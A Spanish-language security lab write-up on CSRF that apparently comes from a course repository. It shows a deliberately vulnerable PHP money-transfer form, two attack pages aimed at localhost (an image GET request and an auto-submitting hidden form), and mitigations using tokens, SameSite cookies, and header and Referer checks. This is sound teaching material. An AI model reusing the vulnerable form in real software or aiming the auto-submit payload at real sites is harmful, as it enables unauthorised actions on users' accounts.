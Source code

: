# PPS-Unidad3Actividad6-CSRF

## Código vulnerable

Creación del archivo `transfer1.php` con código vulnerable:

```
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
$amount = $_POST["amount"];
echo "Transferidos $$amount";
}
?>
<form method="post">
<input type="number" name="amount">
<button type="submit">Transferir</button>
</form>
```

![transfer1](images/transfer1.png)

### Explotación de CSRF

El atacante crea un archivo malicioso `csrf_attack.html`:
```
<!DOCTYPE html>
<html>
<body>
	<img src="http://localhost/transfer.php?amount=1000">
</body>
</html>
```

![csrf_attack](images/csrf_attack.png)

Revisamos el log de apache para confirmar el ataque en `/var/log/apache2/access.log`.

```
docker exec lamp-php83 /bin/bash -c "tail -5 /var/log/apache2/other_vhosts_access.log"
```

![csrf_attack log](images/csrf_attack-log.png)

Creamos el archivo `csrf_attack2.html`:
```
<!DOCTYPE<html>
<body>
        <form action="http://localhost/csrf/transfer1.php" method="POST">
                <input type="hidden" name="amount" value="1000">
                <input type="submit">
        </form>
        <script>
                document.forms[0].submit();
        </script>
</body>
</html>
```

![csrf_attack2](images/csrf_attack2.png)


## Mitigaciones

### Verificando que transfer.php está protegiendo correctamente con el token CSRF

Modificamos el fichero `transfer1.php`:

```
<?php
session_start();
// Generar un token CSRF si no existe
if (empty($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
// Solo permitir solicitudes POST con un token CSRF válido
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {die("CSRF detectado. Acción bloqueada.");
        }
        $amount = $_POST["amount"];
        echo "Transferidos $$amount";
}
?>
<form method="post">
        <input type="number" name="amount">
        <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
        <button type="submit">Transferir</button>
</form>
```

![csrf post block](images/csrf-post-block.png)


### Bloqueando Solicitudes CSRF con Encabezados HTTP

Modificamos el fichero `transfer1.php`:

```
// Generar un token CSRF si no existe
if (empty($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
// Solo permitir solicitudes POST con un token CSRF válido
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
                die("CSRF detectado. Acción bloqueada.");
        }
// Bloquear peticiones que no sean AJAX legítimas
        if (!isset($_SERVER['HTTP_X_REQUESTED_WITH']) || $_SERVER['HTTP_X_REQUESTED_WITH'] !=='XMLHttpRequest') {
                die("CSRF detectado. Acción no permitida.");
        }

        $amount = $_POST["amount"];
        echo "Transferidos $$amount";
}
?>
<form method="post">
        <input type="number" name="amount">
        <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
        <button type="submit">Transferir</button>
</form>
```

![csrf http block](images/csrf-http-block.png)


### Proteger con SameSite=Strict en Cookies

Agregare el siguiente código al fichero `transfer1.php`:

```
session_set_cookie_params(['samesite' => 'Strict']);

session_start();
```

![csrf cookie block](images/csrf-cookie-block.png)


### Probar con todas la mitigaciones

Aplicamos el siguiente código al fichero `transfer1.php`:

```
<?php
// Configurar la cookie de sesión para bloquear ataques CSRF
session_set_cookie_params([
        'samesite' => 'Strict', // Bloquea solicitudes desde otros sitios
        'httponly' => true, // Bloquea acceso a la cookie desde JavaScript
        'secure' => false // Cambiar a true si usas HTTPS
]);
session_start();
// Generar un token CSRF si no existe
if (empty($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
// Solo permitir solicitudes POST
if ($_SERVER["REQUEST_METHOD"] !== "POST") {
        die("Error: Método no permitido");
}
// 1️ - Validar que el token CSRF está presente y es correcto
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']){
        die("CSRF detectado. Acción bloqueada.");
}
// 2️ - Validar que la solicitud proviene del mismo origen
if (!isset($_SERVER['HTTP_REFERER']) || parse_url($_SERVER['HTTP_REFERER'],PHP_URL_HOST) !== $_SERVER['HTTP_HOST']) {
        die("CSRF detectado: Referer inválido.");
}
// 3️ - Bloquear peticiones que no sean AJAX
if (!isset($_SERVER['HTTP_X_REQUESTED_WITH']) || $_SERVER['HTTP_X_REQUESTED_WITH'] !=='XMLHttpRequest') {
        die("CSRF detectado: No es una solicitud AJAX válida.");
}
// Si todas las validaciones pasan, procesar la transferencia
$amount = $_POST["amount"];
echo "Transferidos $$amount";
?>
<form method="post">
        <input type="number" name="amount">
        <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token'];
?>">
<button type="submit">Transferir</button>
</form>
```
![csrf all block](images/csrf-all-block.png)

